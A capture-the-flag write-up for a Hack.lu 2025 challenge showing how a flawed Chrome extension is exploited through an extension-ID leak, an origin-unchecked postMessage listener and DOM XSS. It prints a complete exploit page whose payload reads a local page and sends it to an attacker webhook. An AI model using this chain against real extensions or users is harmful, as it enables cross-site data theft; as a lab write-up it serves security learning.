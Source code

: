 # Hack.lu CTF 2025 - MÅRQUEE 190 Write-up

![MÅRQUEE](images/Title.png)

### Step 1: Initial Analysis and Vulnerability Discovery

The challenge provides the source code for a Chrome extension, "TagDeprecater," and a link to an admin bot. The goal is to craft a URL that, when visited by the bot, exploits the extension to steal a flag from a local server at `http://localhost:1337`.

An analysis of the extension's source code reveals a chain of three critical vulnerabilities:

1.  **Extension ID Leak:** In `content.js`, the script replaces deprecated HTML tags with a default string that includes an image: ``<img src="${chrome.runtime.getURL('no_entry.png')}">``. The `chrome.runtime.getURL()` function resolves to a full path like `chrome-extension://[EXTENSION_ID]/no_entry.png`. When this is injected into the page, the page's own JavaScript can read this URL and leak the extension's unique ID.

2.  **Insecure Message Listener:** The `popup.js` script sets up a message listener with `window.addEventListener("message", ...)`. Crucially, it does not validate the origin of incoming messages. This allows any website to embed the `popup.html` page in an `iframe` and send it malicious commands via `postMessage`.

3.  **DOM-based XSS:** The core logic in `content.js` uses `el.outerHTML = replacementString` to replace tags. Since we can control the `replacementString` by exploiting the insecure message listener, we can inject arbitrary HTML and JavaScript into any page the bot visits. This is a classic DOM-based XSS vulnerability.

### Step 2: Crafting the Three-Stage Exploit

The exploit will be a single HTML page that executes the attack in three sequential stages.

*   **Stage 1: Leak the Extension ID.** The page contains a deprecated `<marquee>` tag. A `MutationObserver` is used to watch the DOM. When the extension replaces the tag, the observer captures the newly added `<img>` element and extracts the extension ID from its `src` attribute.

*   **Stage 2: Hijack the Replacement String.** With the ID, we create a hidden `iframe` pointing to the extension's `popup.html` page (`chrome-extension://[ID]/popup.html`). Once loaded, we send a `postMessage` to the `iframe` with a `SET` command, overwriting the `replacementString` in `chrome.storage.sync` with our malicious XSS payload.

*   **Stage 3: Trigger XSS and Exfiltrate the Flag.** After setting the payload, we redirect the bot to the flag page at `http://localhost:1337`. The extension activates on that page, replacing its `<marquee>` tag with our payload. The payload's JavaScript then executes, fetches the page content again to get the flag, and sends it to our external server.

### Step 3: Overcoming Final Hurdles (CORS and Hosting)

During local testing, two final issues were identified and solved:

1.  **CORS Policy:** The initial payload used `fetch()` to send the flag to our webhook, which was blocked by the browser's CORS policy. The fix was to use a technique that bypasses CORS: creating a new image element and setting its source to our webhook URL with the flag appended as a query parameter (`new Image().src = ...`). Browser image requests are not blocked by CORS in the same way.

2.  **Exploit Hosting:** Simple hosting solutions like `htmlpreview.github.io` were not suitable because they serve content inside a sandboxed `<iframe>`, which restricts critical functions like cross-origin redirection and `iframe` creation. The solution was to use a direct file hosting service. **Netlify Drop** (`https://app.netlify.com/drop`) was perfect for this, as it provides a clean, unrestricted public URL for a single HTML file.

### Step 4: Final Exploit and Execution

The following clean, comment-free code was hosted on Netlify.

#### `exp.html`
```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit</title>
</head>
<body>
    <h1>Exploiting...</h1>
    <marquee id="leaker"></marquee>
    <script>
        const ATTACKER_SERVER = "https://webhook.site/your-id";

        const observer = new MutationObserver((mutations, obs) => {
            for (const mutation of mutations) {
                for (const node of mutation.addedNodes) {
                    if (node.tagName === 'IMG' && node.src && node.src.startsWith('chrome-extension://')) {
                        const extensionUrl = new URL(node.src);
                        const extensionId = extensionUrl.hostname;
                        obs.disconnect();
                        setMaliciousPayload(extensionId);
                        return;
                    }
                }
            }
        });

        observer.observe(document.body, { childList: true, subtree: true });

        function setMaliciousPayload(extensionId) {
            const iframe = document.createElement('iframe');
            iframe.src = `chrome-extension://${extensionId}/popup.html`;
            iframe.style.display = "none";
            iframe.onload = () => {
                const payload = `<img src=x onerror="fetch('http://localhost:1337').then(r=>r.text()).then(d=>{ new Image().src='${ATTACKER_SERVER}/?flag='+encodeURIComponent(d); })">`;
                iframe.contentWindow.postMessage({ type: "SET", replacementString: payload }, '*');
                setTimeout(() => { window.location.href = "http://localhost:1337"; }, 1500);
            };
            document.body.appendChild(iframe);
        }
    </script>
</body>
</html>
```

This file was hosted on Netlify, providing the final URL for the bot:
`https://your.app/exp.html`

Submitting this URL to the admin bot successfully triggered the exploit chain.

![bot](images/1.png)

A few seconds later, the flag arrived at our webhook endpoint.

![webhook](images/3.png)

### Flag
`flag{extension_rebellion_v3}`